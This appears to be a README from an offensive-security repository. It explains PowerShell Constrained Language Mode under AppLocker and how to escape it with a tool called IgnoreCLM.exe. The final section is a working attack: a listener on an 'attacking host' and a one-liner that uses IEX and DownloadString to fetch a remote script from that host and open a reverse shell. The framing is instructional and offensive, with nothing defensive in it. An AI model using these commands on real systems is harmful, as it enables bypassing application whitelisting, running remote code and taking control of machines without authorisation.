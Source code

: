 ## Resources
- https://note-com.translate.goog/tkusa/n/nb259d7e91710?_x_tr_sl=ja&_x_tr_tl=en&_x_tr_hl=en&_x_tr_pto=sc&_x_tr_hist=true

## Constrained Language Mode

```powershell
$ExecutionContext.SessionState.LanguageMode
```
When AppLocker is is enabled, all PowerShell sessions are automatically set to ConstrainedLanguage mode for all users. However, there is an exception. PowerShell sessions launched with a High Integrity Level are set to FullLanguage mode instead.

Constrained Language mode severly limits PowerShells capabilities. A non-exhaustive list of restrictions are shown below:

- Limited access to .NET types (only core types like strings and arrays allowed)
- No dynamic code execution (e.g., Invoke-Expression, ScriptBlock::Create)
- No usage of Add-Type or inline C# code
- No custom classes, enums, or COM objects
- Restricted cmdlets (only core cmdlets allowed)
- No direct DLL calls or P/Invoke
- No access to Windows APIs or reflection
- PowerShell profiles may be ignored
- Limited external command execution
- Applies to PowerShell remoting sessions too

## Catching Full Language Shells

Using IgnoreCLM.exe in this repo, this can be utilizied with Powercat / SimpleCat-TCP to catch PowerShell shells that are running under FullLanguage mode.

```powershell
# Start Powercat / SimpleCat-TCP listener on attacking host [192.168.45.216]
SimpleCat-TCP -p 9001 -l

# Run IgnoreCLM.exe and execute following command
IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.216/SimpleCat-TCP.ps1') ; SimpleCat-TCP -c 192.168.45.216 -p 9001 -ep
```
